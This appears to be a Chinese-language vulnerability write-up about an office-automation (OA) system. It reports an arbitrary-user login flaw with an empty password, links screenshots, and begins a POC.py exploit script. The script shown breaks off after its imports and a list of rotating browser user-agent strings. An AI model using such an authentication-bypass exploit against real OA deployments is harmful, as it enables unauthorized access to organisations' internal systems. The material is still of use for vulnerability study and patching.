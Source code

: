 **安装【安装过程直接下载下来 ；一路下一步】**

进入 OA 内部进行修改存储目录

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfMZBRyYhxVZ3iapV4yqqUfRdWO30XS8tXLEvIOtJsHjSCgw2gaOGxogg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfkMFPngCFub5BBqSQsx4W6LzkNkFHUUEw8AOvJddNSS3tYu6c2iaubww/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfM3oiaqxBuBx2hEwibFJQvlCf5mQxr00LPia5zqnRlF4SMDrTz49ITl7icg/640?wx_fmt=png)

任意用户登录；可以随意登录，空密码

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfMQRlRnibiauLCjiciarOqyAFqicHqphDEHaXF7NP0SPbkyDCyI5ib9eXYg8g/640?wx_fmt=png)

 **POC.py**

```
'''
@Author         : Sp4ce
@Date           : 2020-03-17 23:42:16
LastEditors    : Sp4ce
LastEditTime   : 2020-08-27 10:21:44
@Description    : Challenge Everything.
'''
import requests
from random import choice
import argparse
import json
USER\_AGENTS = \[
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)",
    "Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US)",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)",
    "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)",
    "Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 5.2; .NET CLR 1.1.4322; .NET CLR 2.0.50727; InfoPath.2; .NET CLR 3.0.04506.30)",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)",
    "Mozilla/5.0 (X11; U; Linux; en-US) AppleWebKit/527+ (KHTML, like Gecko, Safari/419.3) Arora/0.6",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.2pre) Gecko/20070215 K-Ninja/2.1.1",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9) Gecko/20080705 Firefox/3.0 Kapiko/3.0",
    "Mozilla/5.0 (X11; Linux i686; U;) Gecko/20070322 Kazehakase/0.4.5",
    "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.8) Gecko Fedora/1.9.0.8-1.fc10 Kazehakase/0.5.6",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.56 Safari/535.11",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_7\_3) AppleWebKit/535.20 (KHTML, like Gecko) Chrome/19.0.1036.7 Safari/535.20",
    "Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.11 (KHTML, like Gecko) Chrome/20.0.1132.11 TaoBrowser/2.0 Safari/536.11",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.71 Safari/537.1 LBBROWSER",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; LBBROWSER)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E; LBBROWSER)",
```
